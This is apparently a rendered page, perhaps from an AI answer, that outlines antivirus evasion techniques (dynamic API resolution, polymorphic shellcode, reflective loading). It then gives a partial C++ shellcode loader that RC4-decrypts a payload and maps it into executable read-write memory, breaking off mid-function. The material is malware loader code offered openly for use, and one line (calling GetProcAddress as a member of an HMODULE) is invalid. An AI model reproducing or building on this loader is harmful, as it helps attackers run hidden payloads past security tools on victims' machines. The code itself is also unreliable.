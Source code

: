 ### 1. **Dynamic API Resolution**
Dynamic API resolution involves resolving API functions at runtime instead of using static imports. This can make it more difficult for reverse engineering and static analysis tools to detect which APIs are being used.

### 2. **Polymorphism**
Polymorphism in the context of shellcode encryption can be achieved by altering the decryption routine each time the payload is generated. I'll provide a Python script to generate polymorphic shellcode.

### 3. **Reflective Loading**
Reflective loading involves loading a DLL or PE file directly into memory, allowing it to execute without ever touching disk. This can avoid detection by file-based antivirus and monitoring tools.

### **C++ Implementation**

Let's start with the C++ code that implements dynamic API resolution, reflective loading, and uses the polymorphic shellcode generated by the Python script.

#### `main.cpp`
```cpp
#include <windows.h>
#include <iostream>
#include <fstream>
#include <string>

typedef FARPROC(WINAPI *lpfnGetProcAddress)(HMODULE, LPCSTR);
typedef HMODULE(WINAPI *lpfnLoadLibraryA)(LPCSTR);

void rc4(unsigned char* buffer, size_t size, const char* key, size_t key_len) {
    unsigned char S[256], K[256], temp;
    int i, j = 0;

    for (i = 0; i < 256; i++) {
        S[i] = i;
        K[i] = key[i % key_len];
    }

    for (i = 0; i < 256; i++) {
        j = (j + S[i] + K[i]) % 256;
        temp = S[i];
        S[i] = S[j];
        S[j] = temp;
    }

    i = j = 0;
    for (size_t k = 0; k < size; k++) {
        i = (i + 1) % 256;
        j = (j + S[i]) % 256;
        temp = S[i];
        S[i] = S[j];
        S[j] = temp;
        buffer[k] ^= S[(S[i] + S[j]) % 256];
    }
}

void executeShellcode(unsigned char* buffer, size_t size) {
    lpfnLoadLibraryA MyLoadLibraryA = (lpfnLoadLibraryA)GetProcAddress(GetModuleHandle(L"kernel32.dll"), "LoadLibraryA");
    lpfnGetProcAddress MyGetProcAddress = (lpfnGetProcAddress)MyLoadLibraryA("kernel32.dll")->GetProcAddress(GetModuleHandle(L"kernel32.dll"), "GetProcAddress");

    void* execMem = VirtualAlloc(0, size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
```
